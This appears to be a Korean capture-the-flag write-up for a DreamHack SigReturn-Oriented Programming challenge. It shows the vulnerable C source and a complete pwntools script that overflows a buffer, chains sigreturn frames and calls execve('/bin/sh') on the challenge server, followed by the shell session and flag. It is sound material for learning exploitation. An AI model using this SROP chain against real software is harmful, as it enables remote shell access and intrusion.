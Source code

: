 # [DreamHack] SigReturn-Oriented Programming

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: SigReturn-Oriented Programming에서 실습하는 문제입니다.
>
> Release: [SigReturn-Oriented Programming.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8546857/SigReturn-Oriented.Programming.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161716906-9ab19cb8-2cba-464a-802a-aecfedae902c.png)

## Analysis

```c
int gadget() {
  asm("pop %rax;"
      "syscall;"
      "ret" );
}

int main()
{
  char buf[16];
  read(0, buf ,1024);
}
```

`main()`의 `read(0, buf ,1024)`에서 BOF가 발생한다. 입력 길이가 충분히 길기 때문에 ROP를 수행할 수 있다.

`gadget()`은 어셈블리로 보면 다음과 같다.

![image](https://user-images.githubusercontent.com/102066383/161717578-c3208926-1df9-45bd-8f65-25d3e8477cd6.png)

`pop rax; syscall; ret`로 원하는 시스템 콜을 호출할 수 있는 가젯이 있다.

## Exploit

`execve("/bin/sh", 0, 0)` 시스템 콜을 호출하면 셸을 획득할 수 있다.

먼저 `"/bin/sh"` 문자열을 이용할 수 있도록 BSS에 `"/bin/sh"`와 `execve("/bin/sh", 0, 0)`을 호출하는 ROP chain을 넣어두고, `sigreturn` 시스템 콜로 `rsp`를 BSS로 옮기면 된다.

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/srop')
else:
    r = remote('host1.dreamhack.games', 14984)

bss = 0x601040  # bss buffer
pop_rax_syscall = 0x4004eb  # pop rax; syscall; ret;
syscall = 0x4004ec  # syscall; ret;


payload = b'a' * 0x18  # dummy

# read(0, bss, 0x100)
frame = SigreturnFrame()
frame.rax = 0  # syscall number of read
frame.rdi = 0
frame.rsi = bss
frame.rdx = 0x100
frame.rsp = bss + 8  # move stack frame to bss
frame.rip = syscall
payload += p64(pop_rax_syscall)
payload += p64(0xf)
payload += bytes(frame)

r.send(payload)


# write "/bin/sh" + ropchain at bss
payload = b'/bin/sh\x00'
frame = SigreturnFrame()
frame.rax = 0x3b  # syscall number of execve
frame.rdi = bss
frame.rsi = 0
frame.rdx = 0
frame.rsp = bss
frame.rip = syscall
payload += p64(pop_rax_syscall)
payload += p64(0xf)
payload += bytes(frame)

r.send(payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 14984: Done
[*] Switching to interactive mode
$ cat flag
DH{4a177764b353c1295afec0071a8e7951}
```